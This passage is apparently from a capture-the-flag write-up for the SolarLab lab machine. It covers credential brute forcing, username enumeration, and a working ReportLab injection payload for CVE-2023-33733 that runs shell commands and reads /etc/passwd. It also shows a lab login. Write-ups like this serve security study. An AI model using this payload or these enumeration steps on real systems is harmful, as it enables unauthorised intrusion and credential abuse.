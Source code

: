 ![img](/images/solarlab/rid_brute.png)

Now test `blake` with the `passwords.txt`.

So we have found the right credential for user `blake`.
![img](/images/solarlab/blake_smb.png)

Now let's try it on the login page.

---

##### report.solarlab.htb:6791

On using the credential `blake:ThisCanB3typedeasily1@` we have `user not found`. So our username is not valid. We can use this error to enumerate for the right user.

![img](/images/solarlab/user_not_found.png)


Let's create a username from possible users from the company.

![img](/images/solarlab/possible_users.png)

Since `Blake Byte` is the developer and we already have his smb credentials. Let's start off with him.

We use `username-anarchy` to generate usernames and then use `burp intruder` to check for existing usernames.

```bash
> username-anarchy Blake Byte
....
```

![img](/images/solarlab/blakeb.png)

Now we use `blakeb` and our password: `blakeb:ThisCanB3typedeasily1@` to login to the report page.

![img](/images/solarlab/report_loggedin.png)

Now we navigate to `leaveRequest` page.

![img](/images/solarlab/leave_request.png)

Input data into the fields and generate.

![img](/images/solarlab/generated_pdf.png)

Upon inspecting the `output.pdf` file we know that it is generated by reportlab.

![img](/images/solarlab/report_lab.png)

On searching the web we find that there is POC and CVE for the pdf library. [CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)

Our POC
```python
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('cat /etc/passwd') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```
